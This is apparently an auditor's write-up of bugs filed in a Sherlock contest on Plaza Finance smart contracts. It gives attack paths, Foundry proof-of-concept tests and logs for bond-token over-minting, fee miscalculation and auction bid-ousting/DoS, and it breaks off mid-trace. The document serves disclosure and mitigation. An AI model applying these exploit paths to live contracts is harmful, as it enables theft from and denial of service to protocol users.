

# Leaderboard
[Plaza Results](https://x.com/sherlockdefi/status/1893044072530456838)<br>

`Rank 22 / 2471` <br>


# Audited Code Repo
### [Sherlock: Plaza](https://audits.sherlock.xyz/contests/682)
### [Github: Plaza](https://github.com/sherlock-audit/2024-12-plaza-finance)

<br>

# <a id="summaryTable"></a>Bugs Filed & Their Status

| #      | Bug ID          | Name | URL    | Adjudged Status  |
|--------|-----------------|------|:------:|-----------------:|
| 1      | [H-01](#h-01)   | Attacker can exploit getCreateAmount() to mint more than expected tokens | [78](https://github.com/sherlock-audit/2024-12-plaza-finance-judging/issues/78) | High, 9 dups |
| 2      | [H-02](#h-02)   | Protocol loses fee because claimFees() does not claim the accumulated fees as promised | [89](https://github.com/sherlock-audit/2024-12-plaza-finance-judging/issues/89) | High |
| 3      | [H-03](#h-03)   | PoolSaleLimit can be breached in auctions as fee is not accounted for in calculations | [365](https://github.com/sherlock-audit/2024-12-plaza-finance-judging/issues/365) | Med, 11 dups |
| 4      | [H-04](#h-04)   | Lowest bid can be ousted by attacker as bid not verified after scaling, leading to eventual DoS | [399](https://github.com/sherlock-audit/2024-12-plaza-finance-judging/issues/399) | Rejected |
| 5      | [H-05](#h-05)   | Flash loan can be used to breach PoolSaleLimit in auctions | [533](https://github.com/sherlock-audit/2024-12-plaza-finance-judging/issues/533) | Med |
| 6      | [M-01](#m-01)   | Higher fee charged & leverage tokens minted when pool created in a paused state | [360](https://github.com/sherlock-audit/2024-12-plaza-finance-judging/issues/360) | Rejected |
| 7      | [M-02](#m-02)   | Auction can fail if USDC blacklists user after bid placement | [585](https://github.com/sherlock-audit/2024-12-plaza-finance-judging/issues/585) | Med |
| 8      | [M-03](#m-03)   | User's claimable reserve tokens can get stuck due to use of raw transfer() inside claimBid() | [643](https://github.com/sherlock-audit/2024-12-plaza-finance-judging/issues/643) | Rejected |

<br>
<br>

## **HIGH-SEVERITY BUGS**
---

### <a id="h-01"></a>[H-01]
## **Attacker can exploit getCreateAmount() to mint more than expected tokens**
#### https://github.com/sherlock-audit/2024-12-plaza-finance/blob/main/plaza-evm/src/Pool.sol#L306
<br>

## Description
The current mechanics of [getCreateAmount()](https://github.com/sherlock-audit/2024-12-plaza-finance/blob/main/plaza-evm/src/Pool.sol#L306) allows an attacker to mint some bond tokens and push the CL (collateral level) down to threshold value. They can then mint additional bond tokens at a discounted rate. Example:

Imagine that `Current CL = 1.2e6 + 1` which is greater than the threshold of `1.2e6`. 
### Normal Path:
1. Bob the honest user wants to mint some bond tokens by investing 100 reserve tokens.
2. He receives `30000` bond tokens.

### Attack Path:
1. Alice the attacker wants to mint bond tokens too using her 100 reserve tokens.
2. Step1: She first calls `create()` with `10` reserve tokens and receives `300` bond tokens.
3. The CL is pushed down to threshold value of `1.2e6` and now a discounted rate will be applied due to the logic [here](https://github.com/sherlock-audit/2024-12-plaza-finance/blob/main/plaza-evm/src/Pool.sol#L329-L333).
4. Step2: She calls `create()` again with `90` reserve tokens and receives `30937` bond tokens.
5. Total bond tokens received = `300 + 30937 = 31237`.

Now Alice can wait for either the `ethPrice` to rise due to natural price movements or arbitrage or even via minting of leverage tokens which tend to push CL up. Once CL is above threshold, redeem for a profit. This profit would be higher than what Bob would've managed to get with his normal investment path.

## Impact
- **Bond Token Impact:** Attacker can mint more tokens than expected by gaming the system and profit. Also, holding more bond tokens for the same investment amount means a higher fixed, predictable income regardless of market volatility. Or in other words, the excess bondTokens create larger fixed USDC obligations for the protocol through coupon payments. 
- **Leverage Token Impact:** When bondToken supply increases, it [reduces the adjusted value available to levToken holders](https://github.com/sherlock-audit/2024-12-plaza-finance/blob/main/plaza-evm/src/Pool.sol#L339-L343). The attacker's ability to mint more bondTokens than intended means:
    - More bondSupply than should exist
    - Lower adjustedValue than should exist
    - This means levToken holders get more extreme leverage than intended
```js
uint256 adjustedValue = tvl - (BOND_TARGET_PRICE * bondSupply);
creationRate = (adjustedValue * PRECISION) / assetSupply;
```

This means a higher profit when the price moves in their favor, extracting more value than the protocol intended.

## Proof of Concept
### 1. Observe the vulnerability through existing test case
Let's first observe the issue by running an [existing test case](https://github.com/sherlock-audit/2024-12-plaza-finance/blob/main/plaza-evm/test/Pool.t.sol#L181) and adding loggers to it. We witness that minting some bond tokens pushes the CL downwards.
Make the following changes and run the test to see the output:
<details>

<summary>
Click to Expand
</summary>

```diff
  function testCreate() public {
    initializeTestCasesFixedEth();
    vm.startPrank(governance);
    Token rToken = Token(params.reserveToken);

-   for (uint256 i = 0; i < calcTestCases.length; i++) {
+   for (uint256 i = 1; i < 2; i++) {
      if (calcTestCases[i].inAmount == 0) {
        continue;
      }

      // Mint reserve tokens
      rToken.mint(governance, calcTestCases[i].TotalUnderlyingAssets + calcTestCases[i].inAmount);
      rToken.approve(address(poolFactory), calcTestCases[i].TotalUnderlyingAssets);

      string memory salt = i.toString();
      
      // Create pool and approve deposit amount
      Pool _pool = Pool(poolFactory.createPool(params, calcTestCases[i].TotalUnderlyingAssets, calcTestCases[i].DebtAssets, calcTestCases[i].LeverageAssets, "", salt, "", "", false));
      useMockPool(address(_pool));
      rToken.approve(address(_pool), calcTestCases[i].inAmount);

+     Pool.PoolInfo memory pool_info = _pool.getPoolInfo();
+     uint256 currentTVL = (3000e8 * pool_info.reserve).toBaseUnit(8);
+     uint256 currentCL = (currentTVL * 1e6) / (pool_info.bondSupply * 100);
+     console2.log("current tvl =", currentTVL);
+     console2.log("current CL  =", currentCL);

      uint256 startBondBalance = BondToken(_pool.bondToken()).balanceOf(governance);
      uint256 startLevBalance = LeverageToken(_pool.lToken()).balanceOf(governance);
      uint256 startReserveBalance = rToken.balanceOf(governance);

      vm.expectEmit(true, true, true, true);
      emit Pool.TokensCreated(governance, governance, calcTestCases[i].assetType, calcTestCases[i].inAmount, calcTestCases[i].expectedCreate);

      // Call create and assert minted tokens
      uint256 amount = _pool.create(calcTestCases[i].assetType, calcTestCases[i].inAmount, 0);
      assertEq(amount, calcTestCases[i].expectedCreate);

      uint256 endBondBalance = BondToken(_pool.bondToken()).balanceOf(governance);
      uint256 endLevBalance = LeverageToken(_pool.lToken()).balanceOf(governance);
      uint256 endReserveBalance = rToken.balanceOf(governance);
      assertEq(calcTestCases[i].inAmount, startReserveBalance-endReserveBalance);

      if (calcTestCases[i].assetType == Pool.TokenType.BOND) {
        assertEq(amount, endBondBalance-startBondBalance);
        assertEq(0, endLevBalance-startLevBalance);
      } else {
        assertEq(0, endBondBalance-startBondBalance);
        assertEq(amount, endLevBalance-startLevBalance);
      }

+     pool_info = _pool.getPoolInfo();
+     uint256 updatedTVL = (3000e8 * pool_info.reserve).toBaseUnit(8);
+     uint256 updatedCL = (updatedTVL * 1e6) / (pool_info.bondSupply * 100);
+     console2.log("\n");
+     console2.log("updated tvl =", updatedTVL);
+     console2.log("updated CL  =", updatedCL);

      // Reset reserve state
      rToken.burn(governance, rToken.balanceOf(governance));
      rToken.burn(address(_pool), rToken.balanceOf(address(_pool)));

      resetReentrancy(address(_pool));
    }
  }
```

</details>
<br>

The test made use of the [following existing configuration](https://github.com/sherlock-audit/2024-12-plaza-finance/blob/main/plaza-evm/test/data/TestCases.sol#L1396-L1406):
```js
    calcTestCases.push(CalcTestCase({
        assetType: Pool.TokenType.BOND,
        inAmount: 1250,
        ethPrice: 0, // not used
        TotalUnderlyingAssets: 1200456789222,
        DebtAssets: 25123456789,
        LeverageAssets: 1321654987,
        expectedCreate: 37500,
        expectedRedeem: 41,
        expectedSwap: 0
    }));
```

and the output logs show:
```text
[PASS] testCreate() (gas: 8581604)
Logs:

  current tvl = 3601370367666000
  current CL  = 1433469286  <---- 🔴

  updated tvl = 3601370371416000
  updated CL  = 1433467148  <---- is less than 🔴. The CL reduces after minting bondTokens.
```
<br>

### 2. Weaponize the Vulnerability
Add the following inside `test/Pool.t.sol` to see it pass when run with `forge test --mt testCreateBug -vv`:
<details>

<summary>
Click to View
</summary>

```js
  function testCreateBug() public {
    uint256 inAmount1 = 10;
    uint256 inAmount2 = 990;

    uint256 TotalUnderlyingAssets = 1000000834;
    uint256 DebtAssets = 25000000000;
    uint256 LeverageAssets = 1000000000;
    
    vm.startPrank(governance);
    Token rToken = Token(params.reserveToken);

    // Mint reserve tokens
    rToken.mint(governance, TotalUnderlyingAssets * 2);
    rToken.approve(address(poolFactory), type(uint256).max);

    // Create pool and approve deposit amount
    uint i = 42;
    string memory salt = i.toString();
    Pool _pool = Pool(poolFactory.createPool(params, TotalUnderlyingAssets, DebtAssets, LeverageAssets, "", salt, "", "", false));
    useMockPool(address(_pool));
    rToken.approve(address(_pool), type(uint256).max);
    Pool.PoolInfo memory current = _pool.getPoolInfo();
    uint256 currentTVL = (3000e8 * current.reserve).toBaseUnit(8);
    uint256 currentCL = (currentTVL * 1e6) / (current.bondSupply * 100);
    console2.log("\n");
    console2.log("current tvl =", currentTVL);
    console2.log("current CL  =", currentCL); // @audit-info : CL is above threshold
    assertGt(currentCL, 1.2e6, "not above threshold!");

    //************** CASE 1 : One-step bond token mint ****************** */
    // Take current state's snapshot
    uint256 snapshot = vm.snapshot();
    
    uint256 amountBondTokens = _pool.create(Pool.TokenType.BOND, inAmount1 + inAmount2, 0);
    console2.log("\nCase 1: \ntotal bond tokens minted via one-step route =", amountBondTokens);

    // reset state to that of snapshot's
    vm.revertTo(snapshot);
    //******************************************************************** */


    // ATTACK PATH ---------->

    //************** CASE 2 : Two-step bond token mint ****************** */
    console2.log("\nCase 2:");
    // STEP 1: mint bond tokens and push CL to threshold
    uint256 amount1 = _pool.create(Pool.TokenType.BOND, inAmount1, 0);
    console2.log("step1: amount1 =", amount1);
    Pool.PoolInfo memory updated = _pool.getPoolInfo();
    uint256 updatedTVL = (3000e8 * updated.reserve).toBaseUnit(8);
    uint256 updatedCL = (updatedTVL * 1e6) / (updated.bondSupply * 100);
    console2.log("updated tvl1 =", updatedTVL);
    console2.log("updated CL1  =", updatedCL); // @audit : gets lowered & equals threshold now
    assertEq(updatedCL, 1.2e6, "still above threshold!");

    // STEP 2: mint more bond tokens at discounted rate    
    uint256 amount2 = _pool.create(Pool.TokenType.BOND, inAmount2, 0);
    console2.log("step2: amount2 =", amount2);
    console2.log("\ntotal bond tokens minted via two-step route =", amount1 + amount2);

    assertGt(amount1 + amount2, amountBondTokens, "Failed attack: no gain of reserveTokens"); // @audit-issue : attacker profited
    //******************************************************************** */
  }
```

</details>
<br>

Output:
```text
Ran 1 test for test/Pool.t.sol:PoolTest
[PASS] testCreateBug() (gas: 7808978)
Logs:

  current tvl = 3000002502000
  current CL  = 1200001  <---- 🔴 CL is above threshold of 1.2e6

Case 1: 
total bond tokens minted via one-step route = 30000  <---- 🟢
  
Case 2:
  step1: amount1 = 300
  updated tvl1 = 3000002532000
  updated CL1  = 1200000  <---- 🔴 CL goes down to threshold of 1.2e6
  step2: amount2 = 30937
  
total bond tokens minted via two-step route = 31237  <---- is greater than 🟢

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 73.42ms (42.29ms CPU time)
```


## Mitigation 
The protocol could choose to:
1. Either add a check that the tx should revert if it causes healthy CL to become `<= 1.2e6` OR
2. As a general check, change the calculation mechanics so that CL does not deteriorate upon minting bond tokens.

[Back to Top](#summaryTable)
---

### <a id="h-02"></a>[H-02]
## **Protocol loses fee because claimFees() does not claim the accumulated fees as promised**
#### https://github.com/sherlock-audit/2024-12-plaza-finance/blob/main/plaza-evm/src/Pool.sol#L697-L720
<br>

## Description
The functions [claimFees() and getFeeAmount()](https://github.com/sherlock-audit/2024-12-plaza-finance/blob/main/plaza-evm/src/Pool.sol#L697-L720) are supposed to allow the protocol to claim accumulated fees as mentioned in the comment:
```js
  /**
   * @dev Allows the fee beneficiary to claim the accumulated protocol fees.
   */
  function claimFees() public nonReentrant {
```

However `getFeeAmount()` calculates the fee on the _current_ balance of `reserveToken`:
```js
  function getFeeAmount() internal view returns (uint256) {
    return (IERC20(reserveToken).balanceOf(address(this)) * fee * (block.timestamp - lastFeeClaimTime)) / (PRECISION * SECONDS_PER_YEAR);
  }
```

This can result in the following issues:
### Issue1:
1. Suppose initial reserve token balance to be `10`.
2. User calls `create()` to mint some bond tokens and deposits `90` reserve tokens.
3. If fee is 10%, protocol would expect `10` if claimed.
4. `feeBeneficiary` calls `claimFees()`. Base has a [private mempool](https://docs.optimism.io/stack/differences#mempool-rules) (visible only to the Sequencer) so deliberate front-running is not an option but it could happen naturally that the user's redeem call executes first (due to higher fee offered). Also, in a live environment there would be multiple create & redeem actions going on by many users so `IERC20(reserveToken).balanceOf(address(this))` is bound to fluctuate.
5. Suppose `50` reserve tokens worth of bond tokens are redeemed.
6. The `feeBeneficiary` receives only `10% of 50 = 5` reserve tokens.

It's not possible to claim the "_accumulated fee_" in the current protocol design.

### Issue2:
1. Let's assume the balance of reserve tokens to be a stable, static value throughout the year as `1000`.
2. Fee = `10%` for the full year.
3. **Case1:** `feeBeneficiary` calls `claimFees()` once at the end of the year. They receive `100` reserve tokens as fee. Works as expected.
4. **Case2:** `feeBeneficiary` calls `claimFees()` at the end of every 6 months i.e. twice in a year. First call results in them receiving `50` reserve tokens which is immediately transferred, leaving behing the remaining `950` tokens. When `claimFees()` is again called after 6 months, they receive `47.5` reserve tokens this time. Hence they lose `2.5` reserve tokens in fees. 
5. Greater the calling frequency of `claimFees()`, greater the loss.

### Issue3:
1. Suppose the fee has just been claimed and `lastFeeClaimTime` updated to the current `block.timestamp`.
2. Alice calls `create()` to have some tokens minted for some `inAmount`.
3. Some time passes and fee has accrued during this.
4. Alice wants to redeem but the accrued fees has pushed CL below threshold ( _or it cuold still be above threshold but Alice's redemption action will push it below threshhold. See  PoC for details_ ).
5. Alice receives lesser than `inAmount` when she redeems. She has to take a loss in spite of no price movement.
6. Conversely, a new user Bob can now get new bond tokens minted at a discounted rate because CL has been pushed below threshold.

## Impacts
1. Protocol loses fee because it's not possible to claim the accumulated fee in the current protocol design.
2. Protocol loses fee if claimFees() called multiple times for a given balance of reserve tokens.
3. CL can be pushed below threshold simply because of fee accrual over time. This harms existing token holders and benefits new users intending to mint bond tokens.

## PoC for Issue3
See this test pass when added inside `Pool.t.sol`:
```js
  function test_fee_redeem_bug() public {
    uint256 inAmount = 1000;

    uint256 TotalUnderlyingAssets = 1001000000;
    uint256 DebtAssets = 25000000000;
    uint256 LeverageAssets = 1000000000;
    
    vm.startPrank(governance);
    Token rToken = Token(params.reserveToken);

    // Mint reserve tokens
    rToken.mint(governance, TotalUnderlyingAssets * 2);
    rToken.approve(address(poolFactory), type(uint256).max);

    // Create pool and approve deposit amount
    uint i = 42;
    string memory salt = i.toString();
    Pool _pool = Pool(poolFactory.createPool(params, TotalUnderlyingAssets, DebtAssets, LeverageAssets, "", salt, "", "", false));
    useMockPool(address(_pool));
    rToken.approve(address(_pool), type(uint256).max);

    _pool.setFee(100000); // 10%

    Pool.PoolInfo memory current = _pool.getPoolInfo();
    uint256 currentTVL = (3000e8 * current.reserve).toBaseUnit(8);
    uint256 currentCL = (currentTVL * 1e6) / (current.bondSupply * 100);
    assertGt(currentCL, 1.2e6, "not above threshold!");
    
    uint256 amountBondTokens = _pool.create(Pool.TokenType.BOND, inAmount, 0);
    console2.log("\nbond tokens minted for 1000 =", amountBondTokens);
    current = _pool.getPoolInfo();
    currentTVL = (3000e8 * current.reserve).toBaseUnit(8);
    currentCL = (currentTVL * 1e6) / (current.bondSupply * 100);
    assertGt(currentCL, 1.2e6, "below threshold!");

    vm.warp(block.timestamp + 365 days);

    current = _pool.getPoolInfo();
    currentTVL = (3000e8 * current.reserve).toBaseUnit(8);
    currentCL = (currentTVL * 1e6) / (current.bondSupply * 100);
    assertGt(currentCL, 1.2e6, "dipped below threshold!");

    // redeem now.
    // @audit-info : Although CL > threshold currently, this redemption action at normal rate will push 
    // CL below threshold, hence lower amount is allowed to be redeemed by the protocol logic
    uint256 amountOnRedeem = _pool.redeem(Pool.TokenType.BOND, amountBondTokens, 0);
    console2.log("redeem amount received        =", amountOnRedeem);
    assertLt(amountOnRedeem, inAmount, "we expected a loss");
  }
```

## Mitigation 
A better apporach would be to accrue fees at the time of create() & redeem() or any other fee generating functions, storing them in a separate state variable, rather than calculating them based on the current balance at claim time. This would ensure fees are properly attributed regardless of balance fluctuations.

[Back to Top](#summaryTable)
---

### <a id="h-03"></a>[H-03]
## **PoolSaleLimit can be breached in auctions as fee is not accounted for in calculations**
#### https://github.com/sherlock-audit/2024-12-plaza-finance/blob/main/plaza-evm/src/Auction.sol#L341
<br>

## Description
The `endAuction()` function [reverts if the `poolSaleLimit` is breached](https://github.com/sherlock-audit/2024-12-plaza-finance/blob/main/plaza-evm/src/Auction.sol#L341):
```js
    else if (totalSellReserveAmount >= (IERC20(sellReserveToken).balanceOf(pool) * poolSaleLimit) / 100) {
        state = State.FAILED_POOL_SALE_LIMIT;
    } 
```

The logic however forgets to account for any unclaimed fees and hence can overshoot the intended mark since it should not try to utilize the funds (reserveTokens) earmarked for fees. Imagine the following:
1. Suppose `poolSaleLimit = 95%` and [pool's fee](https://github.com/sherlock-audit/2024-12-plaza-finance/blob/main/plaza-evm/src/Pool.sol#L273) = `10%`. Also, poolReserves or balance of reserveTokens in the pool = `900,000`.
2. If we consider that fee for 9 months is unclaimed when an auction is started, then the unclaimed fee would be `60,000`.
3. Let's consider `totalSellReserveAmount` at end of auction is `800,000`.
4. `endAuction()` should revert if `totalSellReserveAmount` >= `(900,000 - 60,000) * 95% = 840,000 * 95% = 798,000`, which it is.
5. However `endAuction()` checks if `totalSellReserveAmount` >= `900,000 * 95% = 855,000`, which it is not and incorrectly decides to "safely" allow the auction to end.

Further, if the admin goes ahead and tries to `claimFees()` after some time, he will find his calculations to be based off a reduced reserveToken balance since more than intended has already been auctioned off.

## Impact
- Greater than the safe limit of `poolSaleLimit` can be auctioned off, thus reducing the overall balance of reserveTokens the protocol wished to maintain.
- The protocol receives less than their rightfully owned share of fees.
- This could even cause CL to go below threshold thus offering the attacker to mint new tokens at a discounted rate.

## Mitigation 
Store the fees owed to the protocol at the end time of auction separately and exclude that from the reserveToken balance while comparing with `totalSellReserveAmount`.

[Back to Top](#summaryTable)
---

### <a id="h-04"></a>[H-04]
## **Lowest bid can be ousted by attacker as bid not verified after scaling, leading to eventual DoS**
#### https://github.com/sherlock-audit/2024-12-plaza-finance/blob/main/plaza-evm/src/Auction.sol#L204
<br>

## Summary
[This piece of logic in `insertSortedBid()`](https://github.com/sherlock-audit/2024-12-plaza-finance/blob/main/plaza-evm/src/Auction.sol#L200-L206) needs to be re-validated and values updated _after_ `removeExcessBids()` [has been called inside `bid()` here](https://github.com/sherlock-audit/2024-12-plaza-finance/blob/main/plaza-evm/src/Auction.sol#L161):
```js
        // Compare prices without division by cross-multiplying (it's more gas efficient)
        leftSide = newSellCouponAmount * currentBuyReserveAmount;
        rightSide = currentSellCouponAmount * newBuyReserveAmount;

        if (leftSide > rightSide || (leftSide == rightSide && newSellCouponAmount > currentSellCouponAmount)) {
          break;
        }
```

In the current implementation, anyone's lowest bid can be removed and replaced by an attacker's bid of exactly the same "rate" and "volume" over & over again.

## Description
- `Attack Path 01` outlines the basic vulnerability. 
- `Attack Path 02` and `Attack Path 03` show variations of it which cause a greater impact.
- `Attack Path 04` shows how it can be weaponized to DoS the entire auction functionality.

### Attack Path 01 ( _See `PoC_01` for a coded test case_ )
1. We'll denote a bid by using the syntax: `(100, 2)` which denotes `(buyReserveAmount, sellCouponAmount)` i.e. user is willing to pay `sellCouponAmount` USD to buy `buyReserveAmount` reserve tokens.
2. **Setup:** For ease of calculation, let's assume `totalBuyCouponAmount = 12` and `maxBids = 6` which gives us the `slotSize = 12 / 6 = 2`.
3. Alice the honest user bids `(2, 6)`. Rate = `6 / 2 = 3`. Another bid with `sellCouponAmount = 6` is required to reach `totalBuyCouponAmount`.
4. Bob (or Alice again) bids `(12, 12)`. Rate = `12 / 12 = 1`. Since `sellCouponAmount` of `12` is greater than 6 and the rate is lower than Alice's bid, the bid is automatically reduced by the protocol to `(6, 6)`. We've now reached the `totalBuyCouponAmount` limit.
5. Now in order for any of these 2 bids to be replaced, one would expect only a higher bid to do so. Unfortunately, this is not the case currently.
6. Attacker chooses to replace Bob's bid.
7. Attacker bids `(10, 10)` confident of the fact that only 6 sellCouponAmount of his will be used to compete with Bob's bid, as Alice's bid rate is higher. Since Bob's bid was scaled down to `(6, 6)`, [this piece of logic in `insertSortedBid()`](https://github.com/sherlock-audit/2024-12-plaza-finance/blob/main/plaza-evm/src/Auction.sol#L200-L206) considers attacker's bid to be greater as `10 > 6` i.e. `leftSide == rightSide && newSellCouponAmount > currentSellCouponAmount`.
8. Bob's bid is entirely removed and replaced by the attacker's which is **then** scaled down to `(6, 6)` and the remaining 4 sellCouponAmount is refunded to the attacker.
9. Effectively, the attacker could replace the lowest bid by spending exactly the same coupons and buying exactly the same reserve tokens. FIFO wasn't respected.

This problem goes on and on until the end of the auction because now some other actor say, `Attacker_2` can do the same to the old attacker's bid. 

**It may already be obvious** that the Attacker needs a condition where `totalBuyCouponAmount` limit has been reached. This allows them to post a "higher bid" by bidding `(X, totalBuyCouponAmount)` and ousting the earlier bid. This gives rise to the below mentioned variations.


### Attack Path 02 ( _See `PoC_02` for a coded test case_ )
1. What if Alice has placed a bid which fills up all the slots? Something like `(48, 12)` i.e. the bid has `sellCouponAmount = totalBuyCouponAmount`. How can the Attacker now oust her bid? There's no scaling down yet so it seems the only way to oust this bid completely is to genuinely post a higher bid. Unfortunately, there is still a way.
2. Attacker bids _slightly higher_ for just one slot by bidding `(9, 2)`. This results in Alice's bid to be scaled down to make room for the attacker's bid. Alice's bid now looks something like `(40, 10)`.
3. Attacker can now, just as before, bid `(48, 12)` (effectively the same rate) and be fully confident in the fact that their bid will be scaled down to `(40, 10)` (effectively same volume) while ousting Alice's bid comepletely.
4. The difference between this and `Attack Path 01` is the additional cost of posting that first higher bid to manipulate the pre-conditions.


### Attack Path 03
1. This one is not an attack path per se but more like a design decision which the protocol has taken. What if there's only one bid by Alice where `sellCouponAmount < totalBuyCouponAmount`?. Something like `(40, 10)`.
2. The Attacker can simply post a bid with the same rate but higher volume since slots are available. They just need to make sure `sellCouponAmount = totalBuyCouponAmount` in their bid. Like `(48, 12)`. Alice's entire bid will be ousted and replaced by this new one.
3. To carry out this "attack", the Attacker should be willing to buy all the slots at the current lowest rate i.e. buy higher volume at the same rate.


### Attack Path 04 (Auction DoS)
1. Now that we have seen that **ANY state** of the bid list can be manipulated to a state where the lowest bid can be repeatedly replaced, this opens up an attack vector to DoS the entire auction permanently such that honest users won't be able to place any bids. This can happen because `lastBidIndex` is a `uint256` and is [continually incremented](https://github.com/sherlock-audit/2024-12-plaza-finance/blob/main/plaza-evm/src/Auction.sol#L143-L146).
2. Let's continue from where we left off in `Attack Path 02` (_the starting point can be anything really_). The bid list comprises of 2 bids by the attacker. One slot has the high bid and the remaining slots have the lower bid.
3. Since the lower bid is always scaled down and covers a coupon amount less that `totalBuyCouponAmount`, Attacker can run a loop which keeps on replacing his own lowest bid by bidding `(X, totalBuyCouponAmount)`. Here `X` is whatever the current lowest `buyReserveAmount` is. The attacker always gets refunded for the ousted bid so the attack cost is the final bid cost and gas.
4. Eventually `lastBidIndex` reaches `type(uint256).max` and the attacker stops. 
5. The bid list is now effectively frozen since no new users can post a bid as it will result in `lastBidIndex` to overflow. 


## Proofs of Concept
First, change the config values inside `setUp()` of `Auction.t.sol` (just for easier visualization; the issue is present even with the original values):
```diff
  function setUp() public {
    usdc = new Token("USDC", "USDC", false);
    weth = new Token("WETH", "WETH", false);
    
    pool = createPool(address(weth), address(usdc));
    useMockPool(pool);

    vm.startPrank(pool);
    auction = Auction(Utils.deploy(
      address(new Auction()),
      abi.encodeWithSelector(
        Auction.initialize.selector,
        address(usdc),
        address(weth),
-       1000000000000,
+       12, // totalBuyCouponAmount
        block.timestamp + 10 days,
-       1000,
+       6, // maxBids
        house,
        110
      )
    ));
    vm.stopPrank();
  }
```
<br>

### PoC_01 (for `Attack Path 01`)
<details>
<summary>
Click to view `PoC_01`
</summary>

Add this test and run with `forge test --mt test_bidOusted_bug -vvvv` to see it pass with the following logs:
```js
  function test_bidOusted_bug() public {
    vm.startPrank(bidder); // honest bidder
    usdc.mint(bidder, 100);
    usdc.approve(address(auction), type(uint256).max);
    console.log("alice high bid");
    auction.bid(2, 6); 
    console.log("alice low bid");
    auction.bid(12, 12); 
    vm.stopPrank();

    address attacker = makeAddr("Attacker");
    vm.startPrank(attacker);
    usdc.mint(attacker, 100);
    usdc.approve(address(auction), type(uint256).max);

    console.log("attacker bid");
    auction.bid(10, 10); 
    vm.stopPrank();

    vm.warp(block.timestamp + 15 days);
    vm.prank(pool);
    auction.endAuction();

    assertEq(uint256(auction.state()), uint256(Auction.State.SUCCEEDED));
    console.log("auction succeeded");
  }
```
<br>

Below is the log trace which is annotated as:
- 🟢 $\rightarrow$ Alice's bid (named as `alice high bid`)
- 🟡 $\rightarrow$ Bob's bid (named as `alice low bid` with  `bidIndex = 2`)
- 🟠 $\rightarrow$ Bob's bid reduced from `(12, 12)` to `(6, 6)`
- 🔵 $\rightarrow$ Attacker's bid of `(10, 10)`
- 🔴 $\rightarrow$ Bob's bid removed (`bidIndex = 2` removed)
- 🟤 $\rightarrow$ Attacker's `4 couponAmount` refunded
- 🟣 $\rightarrow$ Attacker's bid reduced to `(6, 6)`
```js
        Traces:
          [666727] AuctionTest::test_bidOusted_bug()
            ├─ [0] VM::startPrank(0x0000000000000000000000000000000000000001)
            │   └─ ← [Return] 
            ├─ [48627] Token::mint(0x0000000000000000000000000000000000000001, 100)
            │   ├─ emit Transfer(from: 0x0000000000000000000000000000000000000000, to: 0x0000000000000000000000000000000000000001, value: 100)
            │   └─ ← [Return] 
            ├─ [24330] Token::approve(ERC1967Proxy: [0xCC773f431bc24EC7Cfcd296B5364bA3eCD905E72], 115792089237316195423570985008687907853269984665640564039457584007913129639935 [1.157e77])
            │   ├─ emit Approval(owner: 0x0000000000000000000000000000000000000001, spender: ERC1967Proxy: [0xCC773f431bc24EC7Cfcd296B5364bA3eCD905E72], value: 115792089237316195423570985008687907853269984665640564039457584007913129639935 [1.157e77])
            │   └─ ← [Return] true
            ├─ [0] console::log("alice high bid") [staticcall]
            │   └─ ← [Stop] 
            ├─ [252127] ERC1967Proxy::bid(2, 6)
            │   ├─ [247311] Auction::bid(2, 6) [delegatecall]
            │   │   ├─ [25110] Token::transferFrom(0x0000000000000000000000000000000000000001, ERC1967Proxy: [0xCC773f431bc24EC7Cfcd296B5364bA3eCD905E72], 6)
            │   │   │   ├─ emit Transfer(from: 0x0000000000000000000000000000000000000001, to: ERC1967Proxy: [0xCC773f431bc24EC7Cfcd296B5364bA3eCD905E72], value: 6)
            │   │   │   └─ ← [Return] true
🟢         │   │   ├─ emit BidPlaced(bidIndex: 1, bidder: 0x0000000000000000000000000000000000000001, buyReserveAmount: 2, sellCouponAmount: 6)
            │   │   └─ ← [Return] 1
            │   └─ ← [Return] 1
            ├─ [0] console::log("alice low bid") [staticcall]
            │   └─ ← [Stop] 
            ├─ [133557] ERC1967Proxy::bid(12, 12)
🟡         │   ├─ [133241] Auction::bid(12, 12) [delegatecall]
            │   │   ├─ [3210] Token::transferFrom(0x0000000000000000000000000000000000000001, ERC1967Proxy: [0xCC773f431bc24EC7Cfcd296B5364bA3eCD905E72], 12)
            │   │   │   ├─ emit Transfer(from: 0x0000000000000000000000000000000000000001, to: ERC1967Proxy: [0xCC773f431bc24EC7Cfcd296B5364bA3eCD905E72], value: 12)
            │   │   │   └─ ← [Return] true
            │   │   ├─ [3009] Token::transfer(0x0000000000000000000000000000000000000001, 6)
            │   │   │   ├─ emit Transfer(from: ERC1967Proxy: [0xCC773f431bc24EC7Cfcd296B5364bA3eCD905E72], to: 0x0000000000000000000000000000000000000001, value: 6)
            │   │   │   └─ ← [Return] true
🟠         │   │   ├─ emit BidReduced(bidIndex: 2, bidder: 0x0000000000000000000000000000000000000001, buyReserveAmount: 6, sellCouponAmount: 6)
            │   │   ├─ emit BidPlaced(bidIndex: 2, bidder: 0x0000000000000000000000000000000000000001, buyReserveAmount: 12, sellCouponAmount: 12)
            │   │   └─ ← [Return] 2
            │   └─ ← [Return] 2
            ├─ [0] VM::stopPrank()
            │   └─ ← [Return] 
            ├─ [0] VM::addr(<pk>) [staticcall]
            │   └─ ← [Return] Attacker: [0xD022658Fd5608078a8c0E5464066B1803a2806F4]
            ├─ [0] VM::label(Attacker: [0xD022658Fd5608078a8c0E5464066B1803a2806F4], "Attacker")
            │   └─ ← [Return] 
            ├─ [0] VM::startPrank(Attacker: [0xD022658Fd5608078a8c0E5464066B1803a2806F4])
            │   └─ ← [Return] 
            ├─ [24727] Token::mint(Attacker: [0xD022658Fd5608078a8c0E5464066B1803a2806F4], 100)
            │   ├─ emit Transfer(from: 0x0000000000000000000000000000000000000000, to: Attacker: [0xD022658Fd5608078a8c0E5464066B1803a2806F4], value: 100)
            │   └─ ← [Return] 
            ├─ [24330] Token::approve(ERC1967Proxy: [0xCC773f431bc24EC7Cfcd296B5364bA3eCD905E72], 115792089237316195423570985008687907853269984665640564039457584007913129639935 [1.157e77])
